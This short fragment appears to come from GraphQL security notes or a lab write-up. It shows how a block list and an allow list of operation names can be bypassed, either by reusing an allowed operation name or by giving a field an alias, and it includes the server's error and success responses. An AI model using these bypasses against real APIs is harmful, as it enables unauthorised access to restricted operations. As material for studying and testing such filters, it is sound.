 ```json
{
  "errors": [
    {
      "message": "400 Bad Request: Operation Name \"random\" is not allowed.",
      "locations": [
        {
          "line": 2,
          "column": 2
        }
      ],
      "path": [
        "systemHealth"
      ]
    }
  ],
  "data": {
    "systemHealth": null
  }
}
```

Bypass blacklist but not whitelist.

---

Query with allowed operation name:

```graphql
query getPastes {
  systemHealth
}
```

---

```json
{
  "data": {
    "systemHealth": "System Load: 2.54\n"
  }
}
```

Bypass both (poorly written) blacklist and whitelist.

---

```graphql
query {
  q1:systemHealth
}
```

Aliases too could bypass filters.

---
